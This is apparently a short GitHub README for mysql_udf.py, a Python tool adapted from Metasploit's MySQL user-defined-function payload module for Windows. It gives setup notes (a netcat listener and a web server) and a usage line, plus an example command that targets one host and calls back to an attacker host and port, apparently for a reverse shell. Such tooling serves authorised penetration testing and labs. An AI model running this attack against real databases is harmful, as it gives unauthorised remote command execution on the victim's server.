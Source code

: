 # Windows/MySQL: Abusing user-defined functions
A loose adaptation of Metasploit's exploit/multi/mysql/mysql_udf_payload.  

    Note: run a netcat listener and set up a web server in the current directory before running.
    usage: mysql_udf.py [-h] [-r RHOST] -u USER -p PASSWORD [-a ARCHITECTURE] -l LHOST -lp LPORT

    e.g. python3 mysql_udf.py -r 10.10.10.10 -u test -p testuser -a x64 -l 10.10.10.11 -lp 4444
